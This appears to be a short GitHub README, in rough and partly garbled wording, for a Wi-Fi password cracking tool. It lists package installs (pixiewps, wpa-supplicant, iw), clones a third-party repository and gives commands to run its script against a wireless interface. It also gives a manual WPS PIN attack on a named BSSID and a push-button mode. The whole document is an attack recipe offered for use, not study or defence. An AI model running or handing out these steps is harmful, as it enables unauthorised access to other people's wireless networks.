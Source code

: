 # Wi-Fi PassWord only WPA2 HACK

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

apt-get install build-essential
apt-get install libpcap-dev
apt-get install sqlite3
apt-get install libsqlite3-dev
apt-get install pixiewps

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan1 -K
# kali command 
sudo python wifi/kali-ps.py -i wlan1 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234

sudo python3 ps.py -i wlan0 --pbc

